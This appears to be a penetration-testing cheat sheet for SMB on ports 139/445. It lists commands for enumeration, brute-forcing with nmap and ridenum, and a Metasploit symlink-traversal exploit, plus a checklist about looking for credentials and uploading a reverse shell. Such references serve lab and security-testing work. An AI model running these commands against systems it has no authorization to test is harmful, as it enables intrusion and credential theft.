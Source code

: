 # 139/445 - SMB

## Enumeration

### searchsploit

```bash
searchsploit <service info>  # Use searchsploit on nmap Service output details
```

### smbmap

```bash
smbmap -H <IP>
smbmap -H <IP> -u anonymous
```

### smbclient

```bash
smbclient -L //<IP>  # List out available shares
smbclient //<IP>/<SHARE>  # Connect to an available share
```

### nbtscan

```bash
nbtscan <IP>
```

### enum4linux

```bash
enum4linux <IP>
```

### nmap

```bash
# /usr/share/nmap/scripts/smb*
nmap -p445 <IP> --script=smb-system-info
nmap -p445 <IP> --script=smb-enum*
nmap -p445 <IP> --script=smb-vuln*
```

### Metasploit

```bash
search smb
```

## Brute Force

```bash
nmap --script smb-brute -p 445 <IP>
ridenum.py <IP> 500 50000 /root/passwds.txt #Get usernames bruteforcing that rids and then try to bruteforce eachusernam
```

## Exploitation Check

* [ ] Enumerate and download any interesting files ideally looking for credentials or other information relating to other services.
* [ ] Can you login via SMB and put files on the system?
  * [ ] If so, is there a web interface where you can access the files?
    * [ ] If so, then you may be able to upload a reverse shell.
  * [ ] If so, can you use Metasploit to create symbolic link to the root filesystem?

## Exploitation

### Metasploit

```bash
use auxiliary/admin/smb/samba_symlink_traversal
set rhost
set smbshare <SHARE>
exploit
```

Then back in `smbclient` we can `cd` into the `rootfs` that was created.
